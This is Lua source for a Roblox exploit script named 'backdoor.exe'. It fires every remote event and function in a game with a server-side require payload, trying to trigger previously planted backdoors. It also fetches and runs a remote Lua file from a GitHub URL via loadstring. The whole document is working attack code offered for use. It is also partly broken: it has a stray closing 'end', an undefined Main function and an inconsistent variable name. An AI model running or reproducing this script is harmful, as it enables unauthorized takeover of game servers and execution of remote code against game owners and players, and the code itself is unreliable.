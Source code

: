 local LocalPlayer = game:GetService("Players").LocalPlayer
local requireScript = ("require(7924358164):k4scripts('%s')"):format(LocalPlayer.Name)
local invCode = "6HndYgC"
 
local alternativeSS = {
    run = { [1] = "5#lGIERKWEF" },
    emma = { [1] = "pwojr8hoc0-gr0yxohlgp-0feb7ncxed", [2] = ",,,,,,,,,,,,,,," },
    helpme = { [1] = "helpme" },
    pickett = { [1] = "cGlja2V0dA==" },
    harked = "https://raw.githubusercontent.com/iK4oS/backdoor.exe/indev/harkedSS.lua"
}
 
local function notify(text)
    game:GetService("StarterGui"):SetCore(
    "SendNotification",
        {
            Title = "backdoor.exe",
            Duration = 3,
            Text = text
        }
    )
end
 
local function attached(possibleWait)
    if possibleWait then wait(possibleWait) end
    return LocalPlayer.PlayerGui:FindFirstChild("backdoor.exe")
end
 
local function validRemote(rm, _className)
    local fullName =  rm:GetFullName()
    
    if string.find(fullName, "DefaultChat") then return false end
    if string.find(fullName, LocalPlayer.Name) then return false end
    if rm:FindFirstChild("__FUNCTION") then return false end
    if rm.Parent == game:GetService("JointsService") then return false end
    
    if rm.ClassName ~= _className then return false end
 
    if getgenv().blacklisted then
        if table.find(getgenv().blacklisted, fullName) then return false end
    end
 
    return true
end
 
local function harked()
    local backpack = LocalPlayer.Backpack 
    return backpack:FindFirstChild("HandlessSegway") and
        Backpack.HandlessSegway:FindFirstChild("RemoteEvents") and
        Backpack.HandlessSegway.RemoteEvents:FindFirstChild("DestroySegway")
end
local function emmaBackdoor(rm)
    return rm.Name == "emma" and rm.Parent.Name == "mynameemma"
end
local function runBackdoor(rm)
    return rm.Name == "Run" and
    rm.Parent:FindFirstChild("Pages") and rm.Parent:FindFirstChild("R6") and
    rm.Parent:FindFirstChild("Version") and rm.Parent:FindFirstChild("Title")
end
 
local function scanGame()
    notify("Scanning for a backdoor.")
    if harked() then
        loadstring(game:HttpGetAsync(alternativeSS.harked))()
        return
    end
 
   for _, remote in pairs(game:GetDescendants()) do
        if validRemote(remote, "RemoteEvent") and not attached() then
            if emmaBackdoor(remote) then
                remote:FireServer(unpack(alternativeSS.emma), requireScript)
            end
            if runBackdoor(remote) then
                remote:FireServer(unpack(alternativeSS.run), requireScript)
            end
 
     remote:FireServer(unpack(alternativeSS.helpme), requireScript)
      remote:FireServer(unpack(alternativeSS.pickett), requireScript)
         remote:FireServer(requireScript)
 
        end
    end
 
    for _, remote in pairs(game:GetDescendants()) do
        if validRemote(remote, "RemoteFunction") and not attached() then
            remote:InvokeServer(requireScript)
        end
    end
 
end
    scanGame()
    
 if not attached(2) then
        notify("Unable to find backdoor.\nGame not backdoored?")
    end
end
 
if game:IsLoaded() then
    pcall(Main)
end
